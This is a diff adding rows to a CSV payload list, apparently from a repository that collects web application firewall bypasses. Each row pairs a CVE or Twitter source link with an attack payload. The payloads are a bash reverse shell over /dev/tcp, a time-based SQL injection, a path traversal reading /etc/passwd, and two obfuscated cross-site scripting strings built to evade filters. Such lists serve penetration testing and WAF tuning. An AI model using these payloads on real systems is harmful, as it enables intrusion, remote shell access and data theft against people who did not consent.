

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
+row 482: https://vulners.com/cve/CVE-2023-33831?utm_source=rss&utm_medium=rss&utm_campaign=rss | /bin/bash -c \"/bin/sh -i >& /dev/tcp/%s/%s 0>&1\ | rce
+row 483: https://vulners.com/cve/CVE-2023-31719?utm_source=rss&utm_medium=rss&utm_campaign=rss | test' OR 2891=LIKE(CHAR(65 | 66 | 67 | 68 | 69 | 70 | 71) | UPPER(HEX(RANDOMBLOB(500000000/2))))-- ZJMj | sqli
+row 484: https://vulners.com/cve/CVE-2023-31718?utm_source=rss&utm_medium=rss&utm_campaign=rss | ../../../../../../etc/passwd | lfi
+row 485: https://twitter.com/jacky_ichwan/status/1721054490017886381 | javascript:var a="ale";var b="rt";var c="()";decodeURI("&lt;button popovertarget=x&gt;Click me&lt;/button&gt;&lt;hvita onbeforetoggle="+a+b+c+" popover id=x&gt;Hvita&lt;/hvita&gt;") | xss
+row 486: https://twitter.com/akaclandestine/status/1719996211254472842 | <inpuT autofocus oNFocus="setTimeout(function() { /*\*/top['al'+'\u0065'+'rt']([!+[]+!+[]]+[![]+[]][+[]])/*\*/ } | 5000);"></inpuT%3E&amp;lT;/stYle&amp;lT;/titLe&amp;lT;/teXtarEa&amp;lT;/scRipt&amp;gT; | xss
```
Also changed, not shown: 4 added rows elsewhere in this file.
